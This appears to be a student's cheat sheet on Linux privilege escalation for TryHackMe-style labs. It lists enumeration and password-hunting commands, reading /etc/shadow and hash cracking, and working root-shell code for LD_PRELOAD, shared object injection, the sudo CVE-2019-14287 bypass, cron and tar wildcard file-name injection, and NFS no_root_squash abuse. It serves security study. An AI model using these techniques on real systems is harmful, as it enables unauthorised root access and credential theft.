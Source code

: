 - [Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
- [Linux Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
- [Checklist - Linux Privilege Escalation](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)
- [Sushant 747's Guide (Country dependant - may need VPN)](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)
- [Course Resource](https://github.com/TCM-Course-Resources/Linux-Privilege-Escalation-Resources)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
- https://tryhackme.com/r/room/linuxprivescarena
- https://tryhackme.com/r/room/linuxprivesc

- for command injection type situation try `backticks`
## Initial Enumeration
- System Enumeration
	- `hostname`
	- `uname - a`
	- `cat /proc/version`
	- `cat /etc/issue`
	- `lscpu`
	- `ps aux`
- User Enumeration
	- `whoami`
	- `id`
	- `sudo -l`
	- `cat /etc/passwd` or `cat /etc/passwd | cut -d : -f 1`
	- `cat /etc/shadow`
	- `history` or `cat .bash_hostory`
	- `sudo su -` 
- Network Enumeration
	- `ifconfig` or `ip a`
	- `ip route`
	- `arp -a` or `ip neigh`
	- `netstat -ano`
- Password Hunting
	- `locate password | more` or `locate pass | more`-- for locating file
	- `grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null`
	- `find / -name id_rsa 2> /dev/null`

## Exploring Automated Tools
- [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
- [Linux Priv Checker](https://github.com/sleventyeleven/linuxprivchecker)
- [pspy64](https://github.com/DominicBreuker/pspy)


## Escalation Path

#### Kernel Exploits
- What is kernel
![[kernel.png]]
- [Linux Kernel Exploits](https://github.com/lucyoa/kernel-exploits) resource

#### Passwords & File Permissions
- `find / 2>/dev/null | grep password` -- Files containing passwords in our directory -- try `pass=, passwd, password.bak, password.*`
- `unshadow passwd shadow` -- only if you have read write to /etc/passwd and /etc/shadow
	- Now you have hash and you can `hashcat -m 1800 cred.txt rockyou.txt`
- `find / -name authorized_keys 2> /dev/null` -- this is public key
- `find/ -name id_rsa 2> /dev/null` -- this is private key

#### Sudo
- **Escalation via Sudo Shell Escaping**
	- [GTFOBins](https://gtfobins.github.io/)
- **Escalation via LD_PRELOAD**
	- shell.c
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```
	 -  gcc -fPIC -shared -o shell.so shell.c -nostartfiles 
	 - Execute any binary with the LD_PRELOAD to spawn a shell : 
		 `sudo LD_PRELOAD=<full_path_to_so_file> <program>`
		 e.g: `sudo    LD_PRELOAD=/tmp/shell.so find` 
- **CVE-2019-14287**
	- [ExploitDB](https://www.exploit-db.com/exploits/47502) --- sudo 1.8.27 - Security Bypass
	- `sudo -u#-1 /bin/bash`
- **Escalation via CVE-2019-18634**
	- [Exploit for CVE-2019-18634](https://github.com/saleemrashid/sudo-cve-2019-18634)

#### SUID
- `find / -perm -u=s -type f 2>/dev/null`
- **Escalation via Shared Object Injection**
	- if we found some suid such as suid-so we can
	- `strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file or directory"`
	- if we have the access to such folder which suid-so is trying to access and it doesn't exist we can make a file and become root (in our case '/home/user/.config/libcalc.so')
	- libcalc.c
```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```
	- `gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c`
	- `/usr/local/bin/suid-so`
- **Escalation via Binary Symlinks**
	- [Nginx Exploit](https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html)
- **Escalation via Environmental Variables**
	- `env` -- to show env variables
	- `find / -type f -perm -04000 -ls 2>/dev/null`
	- Refer [linuxprivescarena](https://tryhackme.com/r/room/linuxprivescarena) - Privilege Escalation - SUID

#### Capabilities
- `getcap -r / 2>/dev/null`
- [Linux Privilege Escalation using Capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)
- [SUID vs Capabilities](https://mn3m.info/posts/suid-vs-capabilities/)
- [Linux Capabilities Privilege Escalation](https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099)

####  Scheduled Tasks
- `cat /etc/crontab`
	- Let's say there is a file overwrite.sh with all * and root, we can overwrite or make one(if it does not exist)
	- `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh` 
	-  `chmod +x /home/user/overwrite.sh`
	- `/tmp/bash -p` 
- **Escalation via Cron Wildcards**
	- If we have a cron for **something.sh** and it contains the below and we have read permission
	`#!/bin/bash 
	`cd /home/user `
	`tar czf /tmp/backup.tar.gz *` -- this is the important line
	- Then we can 
		- `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh`  
		- `chmod +x runme.sh`
		- `touch /home/user/--checkpoint=1` -- doing this in /home/user because in script it is /home/user
		- `touch /home/user/--checkpoint-action=exec=sh\ runme.sh`
		- `/tmp/bash -p`

#### NFS Root Squashing
- `cat /etc/exports`
	- there we will see `no_root_squash`-- this means we can mount that folder
	- on kali 
		- `shomount -e [box IP]` -- this will show what we can mount
		-  `mount -o rw,vers=2 [Box IP]:/mountable/path/or/folder /path/to/mount/on/kali` 
			- path/to/mount/on/kali be /test and
			- /mountable/path/or/folder be /tmp
		- `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /test/x.c`
		- `gcc /test/x.c -o /test/x`
		- `chmod +s /test/x`
	- on box
		- `/tmp/x` 
		- and you are root because everything we did because of the no_root_squash was done as root even if we execute the cmd `/tmp/x` by normal user it was executed as root
